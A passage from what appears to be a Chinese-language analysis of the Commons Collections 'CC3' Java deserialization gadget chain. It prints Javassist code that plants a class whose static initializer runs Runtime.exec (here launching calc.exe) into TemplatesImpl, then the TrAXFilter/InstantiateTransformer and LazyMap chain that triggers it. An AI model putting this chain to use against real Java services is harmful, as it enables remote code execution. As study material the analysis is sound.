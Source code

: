 ```java
        catch (NoSuchFieldException ex) {
            if (clazz.getSuperclass() != null)
                field = getField(clazz.getSuperclass(), fieldName);
        }
        return field;
    }
}

```
## 分析
### 0x1
与CC2 相同，通过javasisst动态创建一个类，这个类里包括static代码，只要实例化这个类就能执行static里的代码，最后将该类转换成字节码存储在byte[][]这个二维数组中，在CC2 中可以知道这个字节码是被用来存储在`private byte[][] _bytecodes `这个二维数组中被实例化的
```java
ClassPool pool = ClassPool.getDefault();
pool.insertClassPath(new ClassClassPath(AbstractTranslet.class));
CtClass cc = pool.makeClass("Cat");
String cmd = "java.lang.Runtime.getRuntime().exec(\"calc.exe\");";
cc.makeClassInitializer().insertBefore(cmd);
String randomClassName = "EvilCat" + System.nanoTime();
cc.setName(randomClassName);
cc.setSuperclass(pool.get(AbstractTranslet.class.getName()));
// cc.writeFile();
byte[] classBytes = cc.toBytecode();
byte[][] targetByteCodes = new byte[][]{classBytes};
TemplatesImpl templates = TemplatesImpl.class.newInstance();
setFieldValue(templates, "_bytecodes", targetByteCodes);
setFieldValue(templates, "_name", "1");



public static void setFieldValue(final Object obj, final String fieldName, final Object value) throws Exception {
    final Field field = getField(obj.getClass(), fieldName);
    field.set(obj, value);
}
public static Field getField(final Class<?> clazz, final String fieldName) {
    Field field = null;
    try {
        field = clazz.getDeclaredField(fieldName);
        field.setAccessible(true);
    }
    catch (NoSuchFieldException ex) {
        if (clazz.getSuperclass() != null)
            field = getField(clazz.getSuperclass(), fieldName);
    }
    return field;
}
```
### 0x2
第二步同CC1的LazyMap 利用链，不过这里的`Transformer[]`中，ConstantTransformer的构造函数传入的`TrAXFilter.class`，而这个类构造函数接收的`_templates`参数，也就是我们在第一步中构造的`_templates`实例，当调用`(TransformerImpl) templates.newTransformer();`的时候，就会调用我们构造的恶意类的static方法
```java
Transformer[] transformers = new Transformer[] {
    new ConstantTransformer(TrAXFilter.class),
    new InstantiateTransformer(new Class[]{Templates.class}, new Object[]{templates})
    };
ChainedTransformer transformerChain = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
```